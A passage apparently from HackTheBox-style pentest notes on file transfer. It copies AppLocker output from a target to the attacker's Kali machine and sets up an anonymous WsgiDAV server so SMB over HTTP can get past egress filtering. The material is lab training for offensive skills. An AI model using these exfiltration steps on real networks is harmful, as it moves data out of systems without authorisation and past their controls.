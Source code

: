 Through the command `copy output.xml Y:` on target machine, we can copy the Applocker output to our local Kali machine:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-36.png)

### SMB WebDav Transfer

Companies usually allow outbound traffic for HTTP(s) but not for SMB.

We can run SMB over HTTP using **WebDav.WebDav**.

Let's configure WebDav Server. We need to install wsgidav and cheroot module:

```shell-session
jadu101@htb[/htb]$ sudo pip3 install wsgidav cheroot

[sudo] password for plaintext: 
Collecting wsgidav
  Downloading WsgiDAV-4.0.1-py3-none-any.whl (171 kB)
     |████████████████████████████████| 171 kB 1.4 MB/s
     ...SNIP...
```

Spin it up:

```shell-session
jadu101@htb[/htb]$ sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 

[sudo] password for plaintext: 
Running without configuration file.
10:02:53.949 - WARNING : App wsgidav.mw.cors.Cors(None).is_disabled() returned True: skipping.
10:02:53.950 - INFO    : WsgiDAV/4.0.1 Python/3.9.2 Linux-5.15.0-15parrot1-amd64-x86_64-with-glibc2.31
10:02:53.950 - INFO    : Lock manager:      LockManager(LockStorageDict)
10:02:53.950 - INFO    : Property manager:  None
10:02:53.950 - INFO    : Domain controller: SimpleDomainController()
10:02:53.950 - INFO    : Registered DAV providers by route:
10:02:53.950 - INFO    :   - '/:dir_browser': FilesystemProvider for path '/usr/local/lib/python3.9/dist-packages/wsgidav/dir_browser/htdocs' (Read-Only) (anonymous)
10:02:53.950 - INFO    :   - '/': FilesystemProvider for path '/tmp' (Read-Write) (anonymous)
10:02:53.950 - WARNING : Basic authentication is enabled: It is highly recommended to enable SSL.
10:02:53.950 - WARNING : Share '/' will allow anonymous write access.
10:02:53.950 - WARNING : Share '/:dir_browser' will allow anonymous read access.
10:02:54.194 - INFO    : Running WsgiDAV/4.0.1 Cheroot/8.6.0 Python 3.9.2
10:02:54.194 - INFO    : Serving on http://0.0.0.0:80 ...
```

Now we can connect to the share using the DavWWWRoot directory:

```cmd-session
C:\htb> dir \\192.168.49.128\DavWWWRoot

 Volume in drive \\192.168.49.128\DavWWWRoot has no label.
 Volume Serial Number is 0000-0000

 Directory of \\192.168.49.128\DavWWWRoot

05/18/2022  10:05 AM    <DIR>          .
05/18/2022  10:05 AM    <DIR>          ..
05/18/2022  10:05 AM    <DIR>          sharefolder
05/18/2022  10:05 AM                13 filetest.txt
               1 File(s)             13 bytes
               3 Dir(s)  43,443,318,784 bytes free
```
